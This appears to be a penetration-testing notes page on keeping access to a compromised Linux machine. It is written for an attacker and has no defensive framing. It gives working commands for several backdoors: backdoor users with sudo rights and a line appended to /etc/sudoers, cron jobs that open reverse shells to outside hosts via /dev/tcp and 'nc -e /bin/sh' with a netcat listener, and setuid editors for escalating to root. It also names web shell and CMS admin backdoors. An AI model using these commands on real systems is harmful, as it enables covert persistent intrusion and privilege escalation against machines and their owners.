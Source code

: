 # Persistence

So if you manage to compromise a system you need to make sure that you do not lose the shell. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

## Create a new user

The most obvious, but not so subtle way is to just create a new user \(if you are root, or someone with that privilege\) .

```text
adduser pelle
adduser pelle sudo
```

Now if the machine has `ssh` you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do

```text
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords. This is of course only persistent until the user decides to change his/her password. So not so good.

## SSH key

Add key to existing ssh-account.

## Cronjob NC

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active

```text
service crond status
pgrep cron
```

If it is not started you can start it like this

```text
service crond status
/etc/init.d/cron start
```

```text
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```text
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener

```text
nc -lvp 5556
```

Sometimes you have to set the user

```text
crontab -e
*/10 * * * * pelle /path/to/binary
```

More here: [http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html](http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html)

## Metasploit persistence module

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

[https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/](https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/)

If you have a meterpreter shell you can easily just run `persistence`.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.

## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock

## Nmap

If the machine has nmap installed:

[https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```text
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

## References

Read this [https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

This is a creat introduction [http://www.dankalia.com/tutor/01005/0100501002.htm](http://www.dankalia.com/tutor/01005/0100501002.htm)

